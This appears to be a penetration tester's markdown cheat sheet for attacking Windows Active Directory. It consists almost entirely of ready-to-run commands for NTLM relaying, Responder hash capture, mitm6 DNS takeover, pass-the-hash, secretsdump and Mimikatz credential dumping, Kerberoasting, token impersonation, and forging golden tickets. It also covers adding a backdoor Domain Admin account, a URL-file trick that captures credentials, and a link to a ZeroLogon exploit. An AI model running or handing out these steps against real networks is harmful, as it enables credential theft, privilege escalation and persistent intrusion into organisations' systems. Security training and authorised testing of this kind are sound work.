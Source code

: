 # Remote NTLM Relaying via Meterpreter (Port Forwarding)
- On the victim machine
```powershell
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```
- In the Meterpreter session
```powershell
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```
- On ntlmrelayx
```powershell
ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```
# Capturing hashes using RESPONDER
```bash
 sudo responder -I tun0 -dwPv
```
# SMB Relay 
> SMB signing must be disabled
Scan host without smb signing
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.107.186 -Pn
```
- Turn off smb and http from **Responder.conf** file
- Run Responder
```bash
sudo responder -I tun0 -rdw -v
```
- Setup another tool `ntlmrelayx.py`
```bash
ntlmrelayx.py -tf <target file> -smb2support
```
# IPv6 DNS Takeover via mitm6 & ntlmrelayx
- Set up ntlmrelayx.
```bash
ntlmrelayx.py -6 -t ldaps://<target IP> -wh fakepad.marvel.local -l lootme
```
- Setup MITM6.
```bash
sudo mitm6 -d <domain name>
```
On successful it will create a lootme folder in the local machine with a bunch of information.

# Pass Attacks
- Using **Crackmapexec smb**
```bash
crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -p <password>

crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -H <hash> --local-auth
```
# Dumping and Cracking hashes
- using **secretsdump**
```bash
secretsdump.py <domain>/<user>:<password>@<target IP>

secretsdump.py <user>:@<IP> -hashes <hash>
```
# Kerberosting
- Using **GetUserSPNs**
```bash
sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP> -request
```
# Token Impersonation
- Using **Metasploit**
```bash
meterpreter> load incognito
meterpreter> list tokens -u
meterpreter> impersonate_token <token name>
```
- Next for persistence, we can add new users and run secretsdump.
```bash
meterpreter> net user /add badboy password123 /DOMAIN
meterpreter> net group "Domain Admins" badboy /ADD /DOMAIN


secretsdump.py <Domain>/badboy:'password123'@<IP>
```
# URL File Attacks
- Make an internet shortcut file (Example: "@test.url")
- Put the file into the shared directory on SMB
```text
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```
- Set up the responder.
```bash
responder -I eth0 -v
```
When the user moves to the shared directory credentials data intercepts through the responder.

# GPP Attacks
- Using Metasploit.
```bash
use auxiliary/scanner/smb/smb_enum_gpp
```
- Using SMBclient, Check for anonymous login allowed
```bash
smbclient -L \\\\<IP>\\

smbclient \\\\<IP>\\<anonymous login allowed share>
prompt off
recurse on
mget *
```
- Check for **Group.xml** file
- Copy the cpassword and run cmd to decrypt it.
```bash
 gpp-decrypt <cPassword>
```
- Using GetUserSPNs we can dump credentials.
```bash
 GetUserSPNs.py <Domain/username:password> -dc-ip <DC IP> -request
```
# Mimikatz Credentials Dumping
```bash
privilege::debug
sekurlsa:logonpasswords
```
# Golden Ticket Attacks
- Using **Mimikatz**
```bash
privilege::debug
lsadump::lsa /inject /name:krbtgt
```
- Copy the SID of the domain and paste it into a safe place
- Copy the NTLM hash for the **krbtgt** account and paste it into a safe place
- Now, generate a golden ticket
```powershell
kerberos::golden /User:Fakeuser /domain:<domain name> /sid:<SID> /krbtgt:<NTLM hash> /id:500 /ptt

# Interact with the session using PTT, use cmd:
misc::cmd
```
# Abusing [ZeroLogon](https://github.com/dirkjanm/CVE-2020-1472)



